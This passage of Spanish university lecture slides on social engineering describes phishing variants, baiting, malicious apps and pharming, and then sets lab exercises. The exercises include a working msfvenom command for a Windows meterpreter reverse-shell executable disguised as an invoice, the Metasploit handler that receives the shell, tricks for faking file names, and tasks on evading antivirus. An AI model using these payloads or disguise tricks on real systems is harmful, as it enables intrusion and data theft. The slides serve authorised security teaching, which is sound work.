\begin{center}
\includegraphics[width=\textwidth,height=0.62\textheight,keepaspectratio]{img/phishing-spear-whaling.png}
\end{center}
\end{frame}

\begin{frame}{Basados en computadores}
\footnotesize
\lead{Variantes de phishing de un vistazo}
\vfill
\begin{center}
\renewcommand{\arraystretch}{1.3}
\begin{tabular}{@{}>{\bfseries}l l l l@{}}
\toprule
Variante & \bfseries Canal & \bfseries Objetivo & \bfseries Personalización \\
\midrule
Phishing       & Correo               & Masivo, indiscriminado          & Nula \\
Spear phishing & Correo               & Persona o equipo concreto       & Alta (OSINT previo) \\
Whaling        & Correo               & Alta dirección                  & Muy alta \\
Vishing        & Llamada de voz       & Persona concreta                & Media--alta \\
Smishing       & SMS / mensajería     & Masivo o dirigido               & Baja--media \\
Quishing       & Código QR            & Masivo o dirigido               & Baja \\
Pharming       & DNS / \cmd{hosts}    & Todos los usuarios de una red   & Nula \\
\bottomrule
\end{tabular}
\end{center}
\vfill
\fuente{Regla general: cuanta más personalización, mayor coste para el atacante\dots{} y mayor tasa de éxito.
        Por eso el \term{spear phishing} es minoritario en volumen pero mayoritario en brechas graves.}
\end{frame}

\begin{frame}[allowframebreaks]{Basados en computadores}
\small
\lead{\term{Watering Hole}}
  \begin{itemize}
  \item Un ataque Watering Hole (o ataque de abrevadero) es una técnica en la que un atacante infecta un sitio web legítimo que es visitado con frecuencia por un grupo específico de personas o empleados de una organización, esperando a que accedan para infectar sus dispositivos.
  \item Cuando los usuarios se sienten seguros están dispuestos a realizar acciones que normalmente no harían. Este ataque suele implicar comprometer de alguna manera el sitio ``seguro'' del usuario o alguno de los servicios que este sitio use: proveedor de publicidad, analítica, CDN\dots
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl027_1.png}
\end{center}
\end{frame}

\begin{frame}{Basados en computadores}
\small
\lead{\term{Smishing}}
  \begin{itemize}
  \item Ataque de ingeniería social que usa como medio de difusión los mensajes de texto y los sistemas de mensajería instantánea.
  \end{itemize}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl025_1.jpg}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl025_2.jpg}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Basados en computadores}
\vfill
\begin{columns}[c]
\begin{column}{0.32\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl026_1.png}
\end{center}
\end{column}
\begin{column}{0.32\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl026_2.png}
\end{center}
\end{column}
\begin{column}{0.32\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl026_3.png}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}[allowframebreaks]{Basados en computadores}
\small
\lead{Ventanas pop-up:}
  \begin{itemize}
  \item Las ventanas emergentes o ``pop-up'' son ventanas que aparecen repentinamente en la pantalla de un ordenador o dispositivo mientras navegamos por Internet.
  \item Vectores de ataque:
    \begin{itemize}
    \item Malware: algunas simulan alertas de virus para engañar al usuario.
    \item Phishing: duplican pantallas de bancos para robar contraseñas.
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl024_1.png}
\end{center}
\end{frame}

\begin{frame}{Basados en computadores}
\small
\lead{\term{Baiting} (el cebo):}
  \begin{itemize}
  \item El baiting (o cebo) es un ataque de ingeniería social en el que un delincuente deja un objeto tentador ---como una memoria USB infectada en un lugar público--- para explotar la curiosidad humana y robar datos o instalar malware cuando la víctima conecta el dispositivo a su equipo.
  \item Cómo funciona el ataque:
    \begin{itemize}
    \item El atacante deja un dispositivo de almacenamiento (USB, disco duro) en un sitio visible. Usa etiquetas llamativas como ``Salarios 2026'' o ``Confidencial''.
    \item La víctima, por curiosidad o interés, conecta la memoria a su ordenador personal o de la empresa.
    \item El malware se ejecuta de forma automática para robar contraseñas o espiar el sistema.
    \end{itemize}
  \item Este ataque es de los que menos se esperan los usuarios, pero requiere cierta preparación:
    \begin{itemize}
    \item Ha de cuidarse el camuflaje para que sea creíble.
    \item Debe acompañarse de algún tipo de eslogan o reclamo que incite al usuario a conectar el dispositivo en su PC.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Basados en computadores}
\begin{center}
\includegraphics[width=0.704\textwidth,height=0.841\textheight,keepaspectratio]{img/baiting-redseguridad.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Basados en computadores}
\small
\lead{Apps maliciosas:}
  \begin{itemize}
  \item El atacante crea una app maliciosa con un nombre parecido al de una legítima, o la disfraza de utilidad gratuita (linterna, juegos, lectores de QR\dots). La víctima la descarga y la ejecuta: o bien la app \emph{es} el malware, o bien lo lleva oculto en su interior.
  \item Las aplicaciones maliciosas (malware móvil) son programas diseñados por ciberdelincuentes para infectar teléfonos y tabletas con el fin de robar datos personales, interceptar credenciales bancarias, espiar a los usuarios o generar dinero mediante publicidad abusiva.
  \item Tipos:
    \begin{itemize}
    \item Troyanos bancarios: se camuflan como herramientas legítimas (calculadoras, lectores de QR, apps de saldo), pero se activan para clonar las pantallas bancarias y robar las contraseñas.
    \item Adware: inundan el dispositivo con anuncios emergentes invasivos, incluso cuando no se está usando la aplicación, consumiendo datos y batería.
    \item Spyware (software espía): acceden al micrófono, la cámara, los mensajes SMS y la ubicación en tiempo real sin consentimiento explícito.
    \item Apps de préstamos falsos: prometen dinero rápido, pero exigen acceso a la lista de contactos para extorsionar posteriormente si hay un retraso en el pago.
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=0.69\textwidth,height=0.85\textheight,keepaspectratio]{img/sl029_1.png}
\end{center}
\end{frame}

\begin{frame}{Basados en computadores}
\begin{center}
\includegraphics[width=0.937\textwidth,height=0.841\textheight,keepaspectratio]{img/sl030_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Basados en computadores}
\small
\lead{Apps troyanizadas:}
  \begin{itemize}
  \item En las apps troyanizadas la víctima se descarga una copia de la aplicación original que ha sido manipulada introduciéndole algún tipo de malware.
  \item Incluso la aplicación original puede ser reemplazada por la copia, y el usuario se descarga la copia creyendo que es la original; por ejemplo, comprometiendo la tienda de aplicaciones.
  \end{itemize}
\end{frame}

\begin{frame}{Basados en computadores}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{img/sl031_1.png}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{img/sl031_2.png}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Basados en computadores}
\small
\lead{Hoax, cadenas y spam:}
  \begin{itemize}
  \item \emph{Hoax letters}: correos con advertencias o bulos (falsos virus, falsas alertas) cuyo objetivo es la difusión masiva.
  \item \emph{Chain letters}: cadenas de correos que ofrecen regalos gratis si se reenvía el mensaje.
  \item \emph{Spam}: correo irrelevante, no deseado y no solicitado, usado para recopilar información de la víctima como datos bancarios, información personal, etc.
  \item Herramienta: \href{https://github.com/MazenElzanaty/EmBomber}{EmBomber}.
  \end{itemize}
\end{frame}

\begin{frame}{Basados en computadores}
\footnotesize
\lead{\term{Pharming}:}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item El pharming redirige el tráfico web legítimo hacia un sitio fraudulento, engañando al usuario \textbf{aunque escriba correctamente la URL} en su navegador. El término combina \emph{phishing} y \emph{farming} (cultivo): busca ``cosechar'' credenciales y datos bancarios de forma masiva.
  \item A diferencia del phishing tradicional, no depende de que se haga clic en un enlace: manipula la propia infraestructura de resolución de nombres. Dos métodos principales:
    \begin{itemize}\setlength{\itemsep}{0.25em}
    \item \textbf{Envenenamiento de DNS} (\term{pharming} de red): se compromete un servidor DNS o se altera la configuración de un router Wi-Fi, afectando a la red completa. Miles de usuarios que visitan una web real son redirigidos a la versión clonada sin ninguna alerta.
    \item \textbf{Malware en el dispositivo} (\term{pharming} local): un troyano modifica el archivo \cmd{hosts} del equipo o del móvil, de modo que el nombre del banco resuelve a la IP del atacante.
    \end{itemize}
  \item Defensas: DNSSEC y DNS cifrado (DoH/DoT), vigilar el certificado TLS del sitio (un clon rara vez tendrá uno válido para ese dominio), HSTS y proteger la administración del router.
  \end{itemize}
\end{frame}

\begin{frame}{Basados en computadores}
\small
\lead{\term{Pharming}: resolución DNS legítima frente a envenenada}
\begin{center}
\includegraphics[width=\textwidth,height=0.70\textheight,keepaspectratio]{img/pharming-dns.png}
\end{center}
\end{frame}

\section{Ejemplos Prácticos}

\begin{frame}{Aviso legal y ético}
\footnotesize
\lead{Antes de empezar con los ejemplos prácticos}
  \begin{itemize}\setlength{\itemsep}{0.4em}
  \item Todas las técnicas de este apartado se practican \textbf{exclusivamente} en el laboratorio de la asignatura, sobre máquinas propias o expresamente autorizadas.
  \item Un ejercicio de pentesting o de Red Team requiere \textbf{autorización escrita} del titular del sistema: alcance, ventana temporal, sistemas excluidos y contacto de emergencia (\emph{Rules of Engagement}).
  \item En España, realizar estas acciones sin autorización puede constituir delito. Entre otros, el Código Penal recoge:
    \begin{itemize}
    \item Art. 197 y 197 bis: descubrimiento y revelación de secretos, y acceso ilícito a sistemas informáticos.
    \item Arts. 248--249: estafa, incluida la estafa informática (base del phishing y del fraude del CEO).
    \item Art. 264 y ss.: daños informáticos e interferencia en el funcionamiento de sistemas.
    \item Art. 401: usurpación del estado civil (suplantación de identidad).
    \end{itemize}
  \item La información obtenida por OSINT sigue siendo \textbf{dato personal}: le aplican el RGPD y la LO 3/2018 (LOPDGDD).
  \end{itemize}
\fuente{\href{https://www.boe.es/buscar/act.php?id=BOE-A-1995-25444}{Código Penal (BOE)} \textbar{}
        \href{https://www.boe.es/biblioteca_juridica/codigos/codigo.php?id=033_Codigo_de_Derecho_de_la_Ciberseguridad}{Código de Derecho de la Ciberseguridad} \textbar{}
        \href{https://www.aepd.es/}{AEPD}}
\end{frame}

\begin{frame}{Ejemplo-1: Ficheros Maliciosos}
\small
  \begin{itemize}
  \item Creación de un archivo que contenga un payload de tipo shell inversa. La idea es difundir ese archivo y, mediante técnicas de ingeniería social, conseguir que la víctima lo acepte como legítimo y lo ejecute.
    \begin{itemize}
    \item Los atacantes envían correos electrónicos con ficheros adjuntos maliciosos para que las víctimas los abran.
    \item Un usuario recibe un correo electrónico que parece legítimo, pero contiene un fichero adjunto con malware.
    \item Estos ficheros pueden venir camuflados como archivos legítimos PDF, Word, Excel, archivos directamente ejecutables con el icono de alguna aplicación legítima, etc.
    \end{itemize}
  \item Corresponde a la técnica \href{https://attack.mitre.org/techniques/T1566/001/}{T1566.001 \emph{Spearphishing Attachment}} de MITRE ATT\&CK, encadenada con \href{https://attack.mitre.org/techniques/T1204/}{T1204 \emph{User Execution}}: sin la acción de la víctima, el ataque no progresa.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-1: Ficheros Maliciosos}
\footnotesize
  \begin{itemize}
  \item Generamos el payload con \href{https://www.offsec.com/metasploit-unleashed/msfvenom/}{msfvenom}, la utilidad de Metasploit que combina generación y codificación de payloads
        (\href{https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/?s=03}{chuleta de ejemplos}).
  \end{itemize}
\cmdbox{msfvenom -p windows/x64/meterpreter/reverse\_tcp \textbackslash\\
\hphantom{msfvenom }LHOST=10.0.1.6 LPORT=4444 -f exe -o factura.exe}
\vspace{-0.4em}
\fuente{\cmd{-p} payload \sep{} \cmd{LHOST}/\cmd{LPORT} dónde debe reconectar la víctima (la máquina del atacante) \sep{}
        \cmd{-f} formato de salida \sep{} \cmd{-o} fichero generado.
        En la captura se usa un payload Linux; para los ejercicios de la asignatura el objetivo es Windows.}
\begin{center}
\includegraphics[width=\textwidth,height=0.44\textheight,keepaspectratio]{img/sl035_1.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-1: Ficheros Maliciosos}
\footnotesize
\lead{Capturar la sesión con Metasploit:}
El payload es solo la mitad del ataque: hay que dejar a la escucha un \term{handler} que
acepte la conexión inversa \textbf{antes} de que la víctima ejecute el fichero.
\cmdbox{msfconsole -q\\
use exploit/multi/handler\\
set payload windows/x64/meterpreter/reverse\_tcp\\
set LHOST 10.0.1.6\\
set LPORT 4444\\
exploit -j}
\vspace{-0.4em}
\begin{center}
\includegraphics[width=\textwidth,height=0.36\textheight,keepaspectratio]{img/sl035_2.png}
\end{center}
\end{frame}

\begin{frame}{Ejemplo-1: Ficheros Maliciosos}
\footnotesize
\lead{El camuflaje: la parte de ingeniería social del ataque}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item Un \cmd{.exe} recién salido de msfvenom no engaña a nadie: hay que \emph{vestirlo}.
        Técnicas habituales:
    \begin{itemize}\setlength{\itemsep}{0.2em}
    \item \textbf{Doble extensión}: \cmd{nomina.pdf.exe}. Windows oculta por defecto las extensiones conocidas, así que la víctima solo ve \cmd{nomina.pdf}.
    \item \textbf{Icono suplantado}: se incrusta el icono de Word, Adobe o de una carpeta.
    \item \textbf{Carácter RLO} (\cmd{U+202E}): invierte visualmente el final del nombre, de modo que \cmd{factura\textbackslash u202Efdp.exe} se muestra como \cmd{facturaexe.pdf}.
    \item \textbf{Nombre verosímil} coherente con el pretexto: \cmd{Nomina\_diciembre.xlsm}, \cmd{Presupuesto\_2026.docm}.
    \end{itemize}
  \item Ejemplo comentado: \href{https://hacking-etico.com/2017/07/27/ingenieria-social-camuflando-un-payload/}{camuflando un payload}.
  \item Otras herramientas:
    \begin{itemize}
    \item \href{https://github.com/Open-Security-Group-OSG/HiddenEyeReborn}{HiddenEyeReborn}
    \item \href{https://github.com/EgeBalci/HERCULES}{Hercules} (\href{https://hacking-etico.com/2017/07/31/ingenieria-social-camuflando-payload-parte-2/}{ejemplo})
    \item \href{https://jaymonsecurity.com/analisis-evilpdf/}{EvilPDF}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl036_1.jpg}
\end{center}
  \begin{itemize}
  \item Crea un fichero malicioso para el Windows 7 del tema anterior, explica alguna técnica de ingeniería social que usarías para engañar a una posible víctima y demuestra que se establece la comunicación entre víctima y atacante.
  \item Comprueba si \href{https://www.virustotal.com/gui/}{VirusTotal} detecta el fichero como malicioso.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl037_1.jpg}
\end{center}
  \begin{itemize}
  \item Juega con las opciones de msfvenom para ofuscar, codificar o cifrar payloads y prueba cómo de efectivas son en:
    \begin{itemize}
    \item VirusTotal.
    \item Un sistema Windows actualizado con EDR (Windows Defender).
    \end{itemize}
  \item \href{https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads}{Ejemplos}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-2: Ocultación de payload en imagen/office/pdf}
\small
  \begin{itemize}
  \item Además, el fichero \cmd{.exe} generado con msfvenom se puede esconder en una imagen:
    \begin{itemize}
    \item \href{https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c}{Lectura}
    \item Herramienta \href{https://github.com/chinarulezzz/pixload}{pixload}
    \end{itemize}
  \item O camuflarlo dentro de un fichero \cmd{.doc}:
    \begin{itemize}
    \item \href{https://github.com/r00t-3xp10it/backdoorppt}{backdoorppt}
    \item \href{https://github.com/sevagas/macro_pack}{macro\_pack}
    \end{itemize}
  \item O en un PDF con Metasploit y el módulo \cmd{adobe\_pdf\_embedded\_exe}:
    \begin{itemize}
    \item \href{http://www.reydes.com/d/?q=Incrustar_una_Carga_en_un_archivo_PDF_existente}{Fuente}
    \item O también con el módulo \cmd{adobe\_utilprintf} (\href{https://www.offsec.com/metasploit-unleashed/client-side-exploits/}{fuente})
    \end{itemize}
  \end{itemize}
\end{frame}

